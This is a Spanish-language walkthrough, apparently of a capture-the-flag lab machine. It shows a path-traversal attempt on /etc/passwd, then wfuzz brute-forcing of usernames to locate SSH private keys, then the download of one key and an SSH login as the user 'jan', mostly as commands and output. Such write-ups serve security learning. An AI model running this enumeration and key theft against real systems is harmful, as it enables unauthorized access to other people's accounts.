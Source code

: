 ~~~bash
❯ curl http://192.168.1.26:3333
OBSERVING FILE: /home/ NOT EXIST 


<!-- EkXBAkjQZLCtTMtTCoaNatyyiNKAReHMV -->%    
~~~

Parece que muestra el contenido de ficheros, realizamos alguna prueba y tratamos de cargar el /etc/passwd:

~~~bash
❯ curl http://192.168.1.26:3333/note
OBSERVING FILE: /home/note NOT EXIST 


<!-- mBTvKSJfjzaLbtZsyMGeuDtRzQMDQiHMV -->%   
❯ curl http://192.168.1.26:3333/../etc/passwd
OBSERVING FILE: /home/etc/passwd NOT EXIST 


<!-- updOMeRVjaRzLNTXYeUCWKsXbGyRAOHMV -->%   
~~~

Parece que tiene una medida implementada para evitar saltar de directorio hacia arriba. De esta manera, ya que no podemos revisar los usuarios del sistema, podemos intentar sacarlos por fuerza bruta poniendo como objetivo la clave privada de SSH. En este caso, dejaremos de lado nuestro querido Gobuster (ya que hasta donde yo sé no permite personalizar puertos) por Wfuzz, poniendo que nos filtre los resultados de 3 líneas:

~~~bash
❯ wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://192.168.1.26:3333/FUZZ/.ssh/id_rsa --hl 3
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.26:3333/FUZZ/.ssh/id_rsa
Total requests: 8295455

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                 
=====================================================================

000002462:   200        38 L     44 W       2602 Ch     "jan"    
~~~

!Bingo! Hemos encontrado el usuario y su clave privada, así que vamos a copiarla, cambiarle los permisos y acceder al sistema por SSH como *Jan*:

~~~bash
❯ curl http://192.168.1.26:3333/jan/.ssh/id_rsa > id_rsa
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2602    0  2602    0     0  2339k      0 --:--:-- --:--:-- --:--:-- 2541k
❯ chmod 600 id_rsa
❯ ssh -i id_rsa jan@192.168.1.26
Linux observer 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
~~~